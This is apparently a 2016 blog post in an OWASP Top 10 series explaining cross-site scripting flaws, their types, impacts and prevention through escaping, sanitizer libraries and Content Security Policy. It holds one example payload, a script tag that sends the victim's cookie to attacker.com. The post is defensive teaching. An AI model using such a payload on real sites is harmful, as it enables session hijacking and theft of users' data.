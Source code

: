 ```yaml
---
layout: post
title: "What are Cross-side Scripting Flaws?"
date: 2016-03-21 20:43:31
image: '/assets/img/'
description:
tags:
- OWASP
- Security
categories:
- OWASP Top10
twitter_text: What are Cross-side Scripting Flaws? - On Code Bucket
---
```


This post is part of a compilation talking about the ten most common security flaws for web applications. To see them all, [click here](/tags/#OWASP).

***

### What are Cross-Side Scripting (XSS) flaws?

[OWASP](https://www.owasp.org) defines Cross-Side Scripting (XSS) Flaws as

> Systems that use non-trusted data written by a user without proper validation or escaping, allowing attackers to execute scripts in the victim's browsers, hijacking user sessions, defacing web sites or redirecting the user to malicious web sites.

So, if your application accepts user inputs in a form such as
```
'<script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo=' + document.cookie </script>'
```

Without proper validation or escaping, your application is vulnerable to a XSS flaw.

There are three main types of XXS flaws. They can be Stored, Reflected or DOM-based.
Stored XSS flaws happen when the attacker sends a malicious script to be saved by a database, for example. Whenever you request that information, the user's browser will interpret the script and the flaw will happen.
Reflected XSS flaws happen when your application uses the attacker's input to return something in the webpage as a result (for example, the input string for a search). If there's a script, then the browser will interpret the script and run when the response page gets loaded in your browser.
DOM-Based XSS are the flaws that makes the browser reinterpret the DOM unexpectedly. A simple example of that would be using alert("Hello") as an input for a form field. Whenever we fetch that information back, we'll be generating a pop-up window with "Hello" written in it.

### What can be the impacts of a Cross-Side Scripting Attack?
Attackers can execute scripts in a victim's browser to hijack user sessions, deface websites, insert hostile content, redirect users, hijack the user's browser using malware, etc. The business impact depends on the application data it holds and on the business impact of publicly exposing this vulnerability.

### How can I prevent this from happening?
There are automated tools that can find some XSS flaws automatically. However, each application builds different outputs and uses differente browser interpreters, like JavaScript, ActiveX, Flash, Silverlight, making automatic detecction harder. To a complete coverage, you will need to combine manual code reviews with penetration testing and automatic approaches.
XSS preventing requires separation of untrusted data from the active browser content.

You can escape all untrusted data based on the HTML context we'll be placing ([OWASP has a spreadsheet with data escaping techniques](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)), use positive or "whitelist" input validation - it's not the best defense if you use special characters in your input -, auto-sanitization libraries, like [AntiSamy](https://www.owasp.org/index.php/AntiSamy) or the [Java HTML Sanitizer Project](https://www.owasp.org/index.php/OWASP_Java_HTML_Sanitizer_Project), and lastly you can also consider the Content Security Policy to defend your entire site against XSS.
